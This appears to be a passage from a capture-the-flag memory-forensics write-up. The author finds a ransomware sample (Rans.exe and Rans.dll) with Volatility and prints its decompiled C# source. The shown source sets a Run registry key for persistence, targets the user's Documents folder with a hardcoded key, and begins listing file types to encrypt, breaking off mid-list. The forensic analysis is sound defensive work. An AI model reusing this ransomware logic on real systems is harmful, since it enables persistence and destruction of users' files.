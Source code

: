 - at this point i wanted to look through files and i was already aware that `marty` is the user:

```
HTB vol.py -f memory.raw --profile=Win7SP1x86_23418 filescan | grep Downloads
Volatility Foundation Volatility Framework 2.6.1
0x000000003e298038      2      0 R--rwd \Device\HarddiskVolume1\Users\Marty\Downloads\Rans.exe
0x000000003e29e4d8      5      0 R--r-d \Device\HarddiskVolume1\Users\Marty\Downloads\Rans.exe
0x000000003e2a1910      2      0 R--rwd \Device\HarddiskVolume1\Users\Marty\Downloads\desktop.ini
0x000000003e693be8      5      0 R--r-d \Device\HarddiskVolume1\Users\Marty\Downloads\Rans.exe
```

- bingo! i see that there's a `Rans.exe` file that likely stands for ransomware
- i dump it and try to reverse it but its very complicated with a ton going on, i highly doubt this is the route so i take a step back and look for other files that start with `Rans`

```
HTB vol.py -f memory.raw --profile=Win7SP1x86_23418 filescan | grep Rans
Volatility Foundation Volatility Framework 2.6.1
0x000000003f4b7038      6      0 R--r-d \Device\HarddiskVolume1\Users\Marty\AppData\Local\Temp\.net\Rans\LnxLq3C8fV66obdZMxa9l3pHdLe0wqc=\Rans.dll
```

- bam! `Rans.dll`, i download it and throw it in dnspy and i get the following code:

#### original code found in dnspy
```
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Security.Cryptography;
using System.Text;
using Microsoft.Win32;

namespace Rans
{
	// Token: 0x02000002 RID: 2
	internal class Program
	{
		// Token: 0x06000001 RID: 1 RVA: 0x00002050 File Offset: 0x00000250
		private static void Main(string[] args)
		{
			string sDir = string.Format("C:\\Users\\{0}\\Documents", Environment.UserName);
			Program.CheckRunKey();
			Program.ParseDir(sDir, "32xDrd6kBp4gJjOw");
		}

		// Token: 0x06000002 RID: 2 RVA: 0x00002070 File Offset: 0x00000270
		public static void CheckRunKey()
		{
			RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true);
			if (!registryKey.GetValueNames().Contains("Rans"))
			{
				FileInfo fileInfo = new FileInfo("Rans.exe");
				registryKey.SetValue("Rans", fileInfo.FullName);
			}
		}

		// Token: 0x06000003 RID: 3 RVA: 0x000020BC File Offset: 0x000002BC
		public static void ParseDir(string sDir, string key)
		{
			List<string> list = new List<string>
			{
				"jpg",
				"mp3",
```